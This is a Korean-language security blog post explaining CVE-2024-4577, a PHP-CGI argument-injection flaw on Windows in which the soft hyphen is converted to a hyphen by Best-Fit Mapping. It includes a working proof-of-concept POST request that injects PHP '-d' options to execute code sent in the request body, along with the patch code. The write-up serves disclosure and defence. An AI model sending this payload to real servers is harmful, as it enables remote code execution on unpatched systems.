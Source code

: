 ```yaml
---
title: "[하루한줄] CVE-2024-4577: PHP-CGI의 Windows Best Fit Mapping으로 인한 Argument Injection 취약점"
author: ogu123
tags: [ PHP CGI, Best Fit Mapping, windows, RCE, ogu123 ]
categories: [1day1line]
date: 2024-06-12 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/?ref=labs.watchtowr.com

## Target

- PHP 8.3 < 8.3.8
- PHP 8.2 < 8.2.20
- PHP 8.1 < 8.1.29


## Explain

Windows 환경에서 PHP가 CGI 모드로 실행될 경우, Argument Injection을 통한 RCE 취약점이 발견되었습니다.

취약점은 특정 유니코드 문자를 통해 CVE-2012-1823 보호기법을 우회할 수 있습니다.

```
    0x0000 0x00; Null
    0x0001 0x01; Start Of Heading
    ...
    0x0061 0x61; Latin Small Letter A
    0x0062 0x62; Latin Small Letter B
    0x0063 0x63; Latin Small Letter C
    ...
    0x221e 0x38; Infinity                        << Best Fit Mapping
    ...
    0xff41 0x61; Fullwidth Latin Small Letter A  << Best Fit Mapping
    0xff42 0x62; Fullwidth Latin Small Letter B  << Best Fit Mapping
    0xff43 0x63; Fullwidth Latin Small Letter C  << Best Fit Mapping
    ...
```

Windows는 유니코드 문자를 다른 문자 인코딩으로 변환할 때 Best-Fit Mapping 기능을 사용합니다.

Best-Fit Mapping은 가장 유사한 다른 문자로 매핑하여 변환하는 기능으로, 유니코드 문자를 지원하지 않는 시스템에서도 최대한 유사한 문자로 표현할 수 있도록 합니다.


![](cve-2024-4577/image1.png)


PHP는 Windows의 로케일(언어, 지역…) 설정을 따르게 되며, Best-Fit Mapping을 통해 변환된 ASCII 문자를 처리하게 됩니다.

취약점은 유니코드 문자 `&shy`(0xAD - 소프트 하이픈)이 Best-Fit Mapping을 통해 `-`(0x2D - 하이픈)으로 변환되어 발생했습니다.

CGI 핸들러는  `-`(0x2D)는 필터링하지만,  `&shy`(0xAD)는 필터링하지 않아, Best-Fit Mapping을 통해 변환된 `-` (0x2D)으로 Argument Injection을 트리거 할 수 있습니다.

현재까지는 중국어 번체(코드 페이지 950), 중국어 간체(코드 페이지 936), 일본어(코드 페이지 932) 로케일에서 발생하는 것으로 확인되었습니다.


```

    POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
    Host: {{host}}
    User-Agent: curl/8.3.0
    Accept: */*
    Content-Length: 23
    Content-Type: application/x-www-form-urlencoded
    Connection: keep-alive

    <?php
    phpinfo();
    ?>

```


공격자는 `&shy`(0xAD)을 이용하여 PHP 명령 옵션 `-d`를 전달함으로써 PHP 설정을 변경하고, 악의적인 PHP 코드를 실행시킬 수 있습니다.


```
    /* On Windows we have to take into account the "best fit" mapping behaviour. */
    #ifdef PHP_WIN32
            if (*p >= 0x80) {
                wchar_t wide_buf[1];
                wide_buf[0] = *p;
                char char_buf[4];
                size_t wide_buf_len = sizeof(wide_buf) / sizeof(wide_buf[0]);
                size_t char_buf_len = sizeof(char_buf) / sizeof(char_buf[0]);
                if (WideCharToMultiByte(CP_ACP, 0, wide_buf, wide_buf_len, char_buf, char_buf_len, NULL, NULL) == 0
                    || char_buf[0] == '-') {
                    skip_getopt = 1;
                }
            }
    #endif

```

해당 취약점은 `WideCharToMultiByte` 함수를 사용하여 유니코드 문자를 변환하고, 해당 문자가 하이픈인지 검사하는 코드가 추가되어 [패치](https://www.php.net/downloads) 되었습니다.



## Reference

- https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ucoderef/d1980631-6401-428e-a49d-d71394be7da8

- https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/